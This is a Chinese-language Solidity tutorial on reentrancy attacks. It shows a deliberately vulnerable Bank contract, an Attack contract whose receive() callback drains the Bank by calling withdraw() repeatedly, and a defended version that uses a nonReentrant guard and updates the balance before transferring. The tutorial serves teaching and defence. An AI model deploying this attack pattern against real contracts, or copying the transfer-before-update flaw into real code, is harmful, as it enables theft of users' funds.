 #### 理解概念：
- "重入攻击"，顾名思义，重复执行逻辑而造成的攻击。
- 广义上，重入指的是，合约A在调用合约B时，合约B又回调合约A的某个函数。
- 即将讨论的示例，重入攻击，指的是"重复执行转账操作，而造成资金损失的攻击"。
- 我理解的攻击机制：利用合约函数对于"单次函数的调用"，没有进行"开闭检查"，而达成的重复进入逻辑。


　

##### 攻击成功示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
    演示 重入攻击 - 成功
*/

contract Bank {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 转账 ether，完全不防范重入攻击，裸写转账
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");

        // 更新余额
        balanceOf[msg.sender] = 0;
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

##### 攻击失败(防御成功)的示例：
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

/*
    演示 重入攻击 - 防御
*/

abstract contract ReentrancyGuard {
    uint256 private constant NOT_ENTERED = 1;
    uint256 private constant ENTERED = 2;

    uint256 private _status;

    error ReentrancyGuardReentrantCall();

    constructor() {
        _status = NOT_ENTERED;
    }

    modifier nonReentrant() {
        _nonReentrantBefore();
        _;
        _nonReentrantAfter();
    }

    function _nonReentrantBefore() private {
        if (_status == ENTERED) {
            revert ReentrancyGuardReentrantCall();
        }

        _status = ENTERED;
    }

    function _nonReentrantAfter() private {
        _status = NOT_ENTERED;
    }

    function _reentrancyGuardEntered() internal view returns (bool) {
        return _status == ENTERED;
    }
}

contract Bank is ReentrancyGuard {
    mapping (address => uint256) public balanceOf;

    constructor() payable {}    

    // 存入ether，并更新余额
    function deposit() external payable {
        balanceOf[msg.sender] += msg.value;
    }

    // 提取msg.sender的全部ether
    function withdraw() external nonReentrant {
        uint256 balance = balanceOf[msg.sender]; // 获取余额
        require(balance > 0, "Insufficient balance");

        // 先更新余额
        balanceOf[msg.sender] = 0;

        // 转账 ether，此时，已经有防御了
        (bool success, ) = msg.sender.call{value: balance}("");
        require(success, "Failed to send Ether");
    }

    // 获取银行合约的总余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}

contract Attack {
    Bank public bank; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Bank _bank) payable {
        bank = _bank;
    }

    // 回调函数，用于重入攻击Bank合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (bank.getBalance() >= 1 ether) {
            bank.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function attack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        bank.deposit{value: 1 ether}();
        bank.withdraw();
    }

    // 获取本合约的余额
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```


　

#### 总结一下：
- 作恶者利用"银行合约"执行```msg.sender.call()```的时候，会重新回到"攻击合约"的```receive()```函数的机制，进而在```receive()```中编写"恶意代码"，最终达成重复进行"银行合约"执行转账行为。
- 防御原理：编写"禁止重入的修饰器"(```nonReentrant```)，且，规规矩矩提前执行```balanceOf[msg.sender] = 0```(其实，这也符合常见的商业逻辑执行顺序，"先扣用户的钱，再给用户提供利益")。
- 值得一提的是：在Solidity和以太坊智能合约中，没有传统意义上的多线程机制，而，所有的函数调用都在一个区块链网络的共识机制下顺序执行。
- 在作恶者"重入攻击"被成功防御的时候，remix测试层面上，会把错误最终提现在"最外围的异常"，也就是```msg.sender.call```的执行下一行，即```require(success, "Failed to send Ether")```；并没有直接在```revert ReentrancyGuardReentrantCall()```错误处异常哦。